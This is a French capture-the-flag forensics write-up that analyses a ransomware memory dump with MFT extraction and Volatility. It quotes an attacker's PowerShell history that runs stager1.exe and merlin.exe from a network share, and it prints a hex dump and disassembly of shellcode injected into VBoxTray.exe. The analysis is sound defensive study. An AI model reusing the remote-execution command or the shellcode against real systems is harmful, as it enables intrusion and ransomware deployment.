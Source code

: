 ### Solve

```shell
grep -i 'ConsoleHost_history.txt' extracts/ransom_mft.body 
0|[MFT FILE_NAME] Users\Admin\AppData\Roaming\Microsoft\Windows\POWERS~1\PSREAD~1\ConsoleHost_history.txt (Offset: 0x221c8000)|103260|---a-----------|0|0|0|1681751775|1681751775|1681751775|1681751775
```

Après extraction et renommage :

```shell
cat ConsoleHost_history.txt

net use \\192.168.1.14 /u:guest:
\\192.168.1.14\ctf\stager1.exe \\192.168.1.14\ctf\merlin.exe 'C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe' 'C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe'
exit
```

Après avoir retourné l'ensemble de la capture mémoire et ignoré jusque là les process liés à de la virtualisation (en générale lié à l'infrastructure du challenge), j'ai tout de même décidé de m'intéréssé à **VBoxTray.exe - 6424** étant donné qu'il est le Parent Process de notre chiffreur (**Temp\svchost.exe - 5540**) et qu'il est signaler par **malfind**.

PS : De manière générale, faire attention aux résultats de **malfind**

```shell
vol2d -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 malfind

Volatility Foundation Volatility Framework 2.6.1
Process: VBoxTray.exe Pid: 6424 Address: 0x22d82840000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: PrivateMemory: 1, Protection: 6

0x0000022d82840000  fc 48 89 ce 48 81 ec 00 20 00 00 48 83 e4 f0 e8   .H..H......H....
0x0000022d82840010  cc 00 00 00 41 51 41 50 52 48 31 d2 51 56 65 48   ....AQAPRH1.QVeH
0x0000022d82840020  8b 52 60 48 8b 52 18 48 8b 52 20 48 0f b7 4a 4a   .R`H.R.H.R.H..JJ
0x0000022d82840030  48 8b 72 50 4d 31 c9 48 31 c0 ac 3c 61 7c 02 2c   H.rPM1.H1..<a|.,

0x0000000082840000 fc               CLD
0x0000000082840001 48               DEC EAX
0x0000000082840002 89ce             MOV ESI, ECX
0x0000000082840004 48               DEC EAX
0x0000000082840005 81ec00200000     SUB ESP, 0x2000
0x000000008284000b 48               DEC EAX
0x000000008284000c 83e4f0           AND ESP, -0x10
0x000000008284000f e8cc000000       CALL 0x828400e0
0x0000000082840014 41               INC ECX
0x0000000082840015 51               PUSH ECX
0x0000000082840016 41               INC ECX
0x0000000082840017 50               PUSH EAX
0x0000000082840018 52               PUSH EDX
0x0000000082840019 48               DEC EAX
0x000000008284001a 31d2             XOR EDX, EDX
0x000000008284001c 51               PUSH ECX
0x000000008284001d 56               PUSH ESI
0x000000008284001e 6548             DEC EAX
0x0000000082840020 8b5260           MOV EDX, [EDX+0x60]
0x0000000082840023 48               DEC EAX
0x0000000082840024 8b5218           MOV EDX, [EDX+0x18]
0x0000000082840027 48               DEC EAX
0x0000000082840028 8b5220           MOV EDX, [EDX+0x20]
0x000000008284002b 48               DEC EAX
0x000000008284002c 0fb74a4a         MOVZX ECX, WORD [EDX+0x4a]
0x0000000082840030 48               DEC EAX
0x0000000082840031 8b7250           MOV ESI, [EDX+0x50]
0x0000000082840034 4d               DEC EBP
```